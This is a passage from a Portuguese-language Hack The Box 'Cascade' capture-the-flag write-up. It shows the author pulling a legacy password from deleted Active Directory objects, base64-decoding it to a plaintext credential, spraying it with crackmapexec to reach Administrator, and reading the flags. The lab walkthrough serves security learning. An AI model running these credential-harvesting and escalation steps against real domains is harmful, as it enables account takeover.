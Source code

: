 Á resposta deste comando nesta máquina não é muito grande... mas normalmente é enorme. Por isso, recomendo exportar para um ficheiro, fazer o download deste para a nossa maquina, e fazer um grep por "**LegacyPwd e CanonicalName**"
´
```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties * > output.txt
# Pelo evil-winrm, é possível fazer donwload e upload directamente com a ferramenta:
download "C:/Users/arksvc/Documents/output.txt"
```
```bash
# kali
cat output.txt | grep -Ei "Legacypwd|canonicalName"

#>  CanonicalName                   : cascade.local/Deleted Objects
#>  CanonicalName                   : cascade.local/Deleted Objects/CASC-WS1
#>  CanonicalName                   : cascade.local/Deleted Objects/Scheduled Tasks
#>  CanonicalName                   : cascade.local/Deleted Objects/{A403B701-A528-4685-A816-FDEE32BDDCBA}
#>  CanonicalName                   : cascade.local/Deleted Objects/Machine
#>  CanonicalName                   : cascade.local/Deleted Objects/User
#>  CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
#>  cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
```

O último objecto cascade.local/Deleted Objects/TempAdmin tem como password logo abaixo YmFDVDNyMWFOMDBkbGVz (que me parece ser base64 também, mesmo não existing um "=" ou dois "==" no final)

```bash
echo YmFDVDNyMWFOMDBkbGVz | base64 -d
#>  baCT3r1aN00dles
```

Esta password era do usuário TempAdmin, mas o ficheiro html nos indicava que este usuário tinha a mesma password do que o administrador. Vamos fazer um spray na mesma com crackmapexec, mas à partida não há dúvidas

![crackmapexec Administrator](Assets/HTB-Windows-Medium-Cascade/crackmapexec-admin.png)

Está feito! Somos donos da máquina...

```powershell
cmd /c 'dir /r /s root.txt user.txt 2>NUL'

(type C:\Users\Administrator\Desktop\root.txt).SubString(0,15)
#>  84c82c72c538ca8
(type C:\Users\s.smith\Desktop\user.txt).SubString(0,15)
#>  2c684f92b315c28
```
